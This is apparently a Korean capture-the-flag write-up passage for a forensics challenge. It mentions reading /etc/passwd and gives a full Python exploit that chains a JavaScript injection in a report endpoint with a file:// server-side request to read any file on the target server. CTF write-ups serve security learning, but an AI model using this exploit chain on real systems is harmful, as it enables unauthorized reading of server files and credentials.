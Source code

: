 기본적으로 특정 OS에 대한 포렌식 문제는 시스템 또는 사용자의 로그 탐색부터 시작됩니다.

때문에 사용자 탐색을 위해 /etc/passwd 파일을 살펴보았습니다.

## Exploit

참고로 임의 파일 읽는 페이로드는 아래와 같습니다.

```python
import time
import sys
import base64
import requests
from hashlib import sha1
client = requests.Session()

def getPow(p):
    for i in range(0, 10000000):
        if sha1(str(i).encode()).hexdigest()[:5] == p:
            return i
cookie = '4903b3e04c24129e61f615b6be8b609f'
ip = '3.39.255.32'
url = f'http://{ip}/cs/report.php'
res = client.get(url=url, headers={
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36',
    'Cookie': f'PHPSESSID={cookie}'
})
a = res.text.find('</code>')
p = res.text[a-5:a]
pow = getPow(p)
file = sys.argv[1]
getfile_payload = base64.b64encode(
    f'http://localhost/api/slot_reg.php?name=asdf&slotid=asdf&reel=asdf&reel_blur=file://{file}'.encode()).decode().replace('=','')
res = client.post(url=url, data={
    'url': 'http://localhost/admin/reg_slot.php?headers[]=`);});fetch(atob(`'+str(getfile_payload)+'`),JSON.parse(atob(`eyJoZWFkZXJzIjp7IkNvbnRlbnQtVHlwZSI6ImFwcGxpY2F0aW9uL2pzb24ifSwibWV0aG9kIjoicG9zdCIsIm1vZGUiOiJjb3JzIiwiY3JlZGVudGlhbHMiOiJpbmNsdWRlIn0`)));setTimeout(function+a(){(`{',
    'pow': pow
}, headers={
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36',
    'Cookie': f'PHPSESSID={cookie}'
})
if 'Done' in res.text:
    time.sleep(3)
    res = client.get(f'http://{ip}/assets/slot/asdf-asdf/3da541559918a808c2402bba5012f6c60b27661c-reel_blur.jpg')
    print(res.text)
else:
    print('Error')
```
